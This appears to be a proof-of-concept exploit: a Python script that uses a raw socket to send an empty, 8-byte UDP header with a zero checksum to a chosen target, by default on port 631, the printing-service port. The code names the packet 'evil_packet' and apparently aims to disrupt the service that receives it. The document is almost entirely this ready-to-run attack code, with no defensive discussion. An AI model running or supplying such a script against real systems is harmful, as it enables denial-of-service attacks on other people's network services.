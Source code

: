 POC
---

    import socket
    import struct
    from optparse import OptionParser

    parser = OptionParser()
    parser.add_option('-t', '--target', dest='target')
    parser.add_option('-s', '--source-port', dest='source_port', default=4321)
    parser.add_option('-P', '--destination-port', dest='destination_port', default=631)

    (options, args) = parser.parse_args()

    sock = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_UDP)
    target_address = options.target

    def buildPacket():

        source_port = options.source_port
        destination_port = options.destination_port
        length = 8
        checksum = 0

        udp_header = struct.pack('!HHHH', source_port, destination_port, length, checksum)

        return udp_header


    def sendPayload(udp_header):
        sock.sendto(udp_header,(target_address, 0))

    evil_packet = buildPacket()
    sendPayload(evil_packet)